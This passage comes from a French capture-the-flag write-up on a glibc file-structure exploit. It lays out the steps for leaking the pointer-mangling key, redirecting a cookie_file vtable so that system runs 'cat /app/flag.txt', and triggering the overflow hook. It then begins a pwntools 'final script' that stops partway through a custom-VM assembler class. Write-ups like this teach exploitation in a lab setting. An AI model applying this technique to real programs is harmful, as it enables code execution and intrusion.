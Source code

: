 On peut donc:

* utiliser le pointeur de liste chaînée de la structure FILE
  pour trouver stderr
* se déplacer sur le symbole `__libc_argv` pour trouver l'adresse de la
  pile
* déréférencer la valeur (avec POP)
* la combiner avec `__libc_start_main + 159` pour trouver la clé de
  chiffrement

## Exploitation d'un cookie file (suite)

On va ensuite:

* déplacer le pointeur de vtable pour que le champ `__overflow`
  soit `IO_cookie_close`
* encoder un pointeur vers `system` dans la structure `cookie_file`
* faire pointeur cookie vers une chaîne "cat /app/flag.txt"
* modifier `_IO_write_ptr > _IO_write_base` pour déclencher l'appel à
  overflow dans le hook de sortie

Script final (après un peu d'optimisation pour compacter):
```python
import sys
from pwn import p32, p64, hexdump

OP = {
    "add": 0xAD,
    "sub": 0x5B,
    "xor": 0x10,
    "and": 0x4D,
    "or": 0x0B,
    "lsh": 0x37,
    "rsh": 0xD2,
}


class ASM:
    def __init__(self):
        self.mode = 32
        self.buf = bytearray()

    def op(self, str, r0, r1, /, reg=None, imm=None):
        "Arithmetique"
        self._mode32()
        if reg is not None:
            instr = (r1 << 28) | (OP[str] << 16) | (reg << 8) | r0
            self.buf += p32(instr)
        elif imm is not None:
            instr = (r1 << 28) | 0xF << 24 | (OP[str] << 16) | (imm << 8) | r0
            self.buf += p32(instr)

    def _mode32(self):
        if self.mode == 64:
            dst = len(self.buf) + 8
            dst += 1
            self.buf += p64((dst << 16) | 0xBB00)
        self.mode = 32

    def _mode64(self):
        if self.mode == 32:
            self.buf += p32(0x00BB0009)  # nop
        self.mode = 64

    def jmpreg(self, r):
```